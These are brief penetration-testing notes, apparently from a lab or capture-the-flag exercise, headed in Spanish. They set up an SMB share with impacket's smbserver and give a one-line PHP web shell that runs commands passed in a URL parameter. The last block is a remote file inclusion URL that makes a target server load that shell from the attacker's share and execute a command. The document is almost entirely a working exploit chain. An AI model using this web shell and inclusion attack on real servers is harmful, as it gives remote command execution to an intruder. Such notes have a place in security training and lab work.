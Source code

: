 ## Servidor SMB

```python
IP = 10.10.10.14

smbserver.py -smb2support share $(pwd)
```

## shell.php

```python
<?php system($_GET['cmd']); ?>
```

## RFI

```python
http://10.10.10.26/index.php?language=\\10.10.10.14\share\shell.php&cmd=id
```
